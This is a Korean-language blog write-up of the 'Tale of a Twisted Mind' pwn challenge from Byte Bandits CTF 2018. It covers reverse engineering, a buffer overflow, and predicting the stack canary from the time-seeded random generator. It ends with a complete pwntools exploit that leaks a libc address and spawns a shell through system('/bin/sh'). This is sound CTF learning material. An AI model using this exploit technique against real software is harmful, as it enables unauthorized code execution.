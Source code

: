 ```yaml
---
layout: post
title: ! "[Byte Bandits] Tale of a Twisted Mind Writeup"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - ByteBanditsCTF2018
  - MyriaBreak
---
```


Pwn문제를 뭘 풀까 찾다가 2달전에 했던 `Byte Bandits CTF 2018`에서 봤던 문제를 풀어보기로 했다.
`Tale of a Twisted Mind`라는 문제로 CTF 당시에는 Pwnable에 익숙하지 않은지라 풀지 못했으나 지금은 어느정도 개념이 잡혔고, 문제점수 또한 250점으로 난이도가 적당할 거 같아서 풀어보기로 하였다.

<!--more-->

```
We all know how intelligent Layat is... He says that since everyone knows how gcc programs are protected, he set out to protect them by his own secret way.

But Alas! Even the compiler asked "Art Though Dumb?"

nc 34.218.199.37 6000
```

문제는 위와 같고, 바이너리 파일과 라이브러리를 주므로 이걸 분석하면 된다.
당연하지만 현재 서버는 닫혔고, 라이브러리를 주긴했으나 그냥 로컬기준으로 해서 문제를 풀겠다.(물론 LD_PRELOAD로 설정해줘도 되긴하다.)

먼저 `checksec`을 이용해 어떤 보호기법들이 적용되어있는지 살펴보겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_01.PNG)  

`32bit`이고 `Canary`와 `NX`가 걸려있어 매우 어려울 것 같은 느낌이다.
아직 뭘 해야할지 잘 모르겠으니, 먼저 실행해보자.
실행하면 아래와 같이 모듈러연산을 하는 식을 던져주는데, 이게 풀어도 풀어도 계속 문제를 준다 ㅡㅡ;

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_02.PNG)  

일단 프로그램의 시작부분이 어떻게 시작하는 지 알았으니 이제 IDA를 사용해 저 부분을 한번 살펴보자.
저 문구 자체는 `String Window`에서 쉽게 찾을 수 있고, 거기서 거슬러 올라가면 이 프로그램의 흐름을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_03.PNG)  

여기서 사용되고 있고, 사용하고 있는 함수를 찾아보면 `sub_8048867()`에서 찾을 수 있고, 여기서 더 올라가보면 이 함수가 312번 호출되는 것을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_04.PNG)
![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_05.PNG)

그렇다면 저 함수를 312번 호출이 끝나면 무엇이 수행되는지 보자.
아래 그림을 통해 이 프로그램이 대략적으로 어떻게 돌아가는지 표현해보았다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_06.PNG)  

사용자에게 312번의 수식계산(Question)을 시키고, 이를 통과하게 되면 사용자가 원하는 값을 fgets를 통해 `buffer`에 쓸 수 있다.
그런데 여기서 buf에 해당하는 `s`는 `bp-14`의 위치에 있는데, fgets를 통해 `46`의 길이를 읽게되므로 `Buffer Overflow`가 일어나는 것을 알 수 있다.

```
  int v2; // eax@1
  int v3; // eax@2
  int result; // eax@3
  int v5; // eax@6
  int v6; // edx@9
  signed int i; // [sp+4h] [bp-18h]@1
  char s; // [sp+8h] [bp-14h]@8
  int v9; // [sp+18h] [bp-4h]@1
```

그럼 이제 bof를 이용해 함수 흐름을 조작해서 libc_base를 leak하고, 최종적으로는 ROP로 system("/bin/sh")를 수행할 수 있을 것이다!
... 인줄 알았지만 아직 `Canary`가 남아있었다 ...

다시 위에서 정리해놓은 것을 보면 `Canary`는 `sub_8048801()`에 의해 27~29줄에서 다시 설정된다.
그런데 이 `sub_8048801()`이란 함수가 이전에도 많이 쓰이는데... 바로 처음에 사용자에게 던져주는 수식의 난수생성에 쓰인다.

여러번 실행해보면 알겠지만 주어지는 수식의 값이 항상 다르다는 것을 알 수 있는데, IDA를 통해 hexray한 코드를 보면
이 random한 값은 `time(0)`에 의한 결과이다. time(0)의 값이 이 프로그램에서는 C함수에서 srand(seed)의 seed값으로 들어가는 것과 같은 효과가 여기서 나타난다.
그러므로 time(0)이 같다면 항상 같은 난수 생성이 가능하다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_07.PNG)  

time(0)의 값을 설정하고 랜덤한 값을 `312*2`번 뽑고, 한번 더 뽑게되면 우리가 원하는 `Canary`값을 얻을 수 있다.
그럼 이제 어떻게 할까?
Canary값을 구하기 위한 두가지 방법이 있다.

1. 해당 프로그램에서 Random값을 뽑아내는 알고리즘과 같은 알고리즘을 쓰는 소스를 구현한다.
2. 바이너리 code patch를 통해 우리가 원하는 Canary값을 출력하게 한다.

여기서는 후자, code patch를 이용해서 Canary값을 출력하는 방법을 사용하겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_08.PNG)  

위에서 Canary값을 설정하는 코드를 보면 Canary값을 설정한 후, bss영역(전역변수)의 dword_804AA28에 저장하게되는데
이 부분을 puts을 통해 출력하게 patch한다면 우리가 원하는 Canary값이 puts를 통해 출력될 것이다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_09.PNG)

자! 이제 원본파일인 `twisted`와 Canary를 출력하게 patch한 `twisted_modipy`를 동시에 실행한다면
time(0)의 값을 같으므로 같은 난수생성을 하게 되고, 같은 Canary값을 가질 것이다. 
이 때 우리는 `twisted_modipy`를 통해 Canary값을 얻을 수 있으므로, `twisted`에서 bof를 성공적으로 일으킬수 있다.

그럼 이제 코드짜는 일만 남았다..
계획은 일단 아래와 같다.

1. 먼저 puts.plt로 리턴하여 puts.got를 인자로 넣어 `puts_addr`을 구한다.
2. 위에서 구한 puts_addr을 이용해서 `libc_base`를 구한다.
3. `libc_base`를 통해 system함수와 "/bin/sh"의 주소를 구한다.
4. `system("/bin/sh")`를 실행한다.

급마무리하는 느낌이 있지만, 익스코드는 아래와 같다.

```python
from pwn import *
import string

#context.log_level = 'debug'

elf = ELF("./twisted")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

conn = process("./twisted", env={"LD_PRELOAD":"libc.so.6"})
patched = process("./twisted_modify", env={"LD_PRELOAD":"libc.so.6"})

for i in range(0,312):
	Equation = conn.recvuntil("=")
	patched_Equation = patched.recvuntil("=")
	patched.recvline()
	conn.recvline()
	if not (Equation == patched_Equation):
		break
	op1, op2 = Equation[:-1].split("%")
	result = int(op1) % int(op2)
	conn.sendline(str(result))
	patched.sendline(str(result))

patched.recvline()
canary = patched.recv(4)
patched.close()
print("")

log.info("canary : 0x%x\n" % u32(canary))

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

fgets_sbuf = 0x8048979
bss = 0x804A800

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(puts_plt)
payload += p32(fgets_sbuf)
payload += p32(puts_got)

conn.recvuntil(":")
conn.send("a")	## getchar != '\n'
conn.sendline(payload)

conn.recvline()
puts_addr = conn.recv(4)
puts_sym = libc.symbols['puts']

libc_base = u32(puts_addr)-puts_sym
system_offset = 0x40310
bin_sh_offset = 0x162d4c
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset

log.info("base_libc   : 0x%x" % libc_base)
log.info("puts_addr   : 0x%x" % u32(puts_addr))
log.info("system_addr : 0x%x" % system_addr)
log.info("bin_sh_addr : 0x%x" % bin_sh_addr)

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(system_addr)
payload += "BBBB"
payload += p32(bin_sh_addr)

conn.sendline(payload)
conn.interactive()

```

위 파이썬 익스코드를 실행하면 Shell을 획득할 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_10.PNG)  

### *후기

재미있는 문제였다. 일단 seed값을 똑같이 설정해서 같은 랜덤값을 얻는 문제를 실제로 풀어본 것이 처음이였다.

뭐... 그 만큼 삽질을 많이해서 굉장히 시간을 많이 잡아먹었지만 ㅡㅡ;

일단 `while(getchar() == 10) ;` 부분이 당연히 버퍼를 비워주기 위한 코드인줄 알아서 익스할때 익스가 제대로 되지않아서 많은 시간을 잡아먹었고,

최근에 execve() 함수 안에 "/bin/sh"를 호출해주는 부분으로 바로 뛰어 쉘을 한방에 띄울 수 있다는 `oneshot gadget`이란 것을 알게 되어 이 원샷가젯을 사용하려다가 굉장히 많은 시간을 잡아먹었다.
일단 원샷가젯에 대한 결론을 말하자면... 32bit 바이너리라서 원샷가젯이 안먹힌다;; 64bit에서는 정상적으로 사용가능하므로 64bit 익스에만 사용하도록 하자.

그래도 삽질한 만큼 많은 걸 배운것 같다. 이상 마무리~
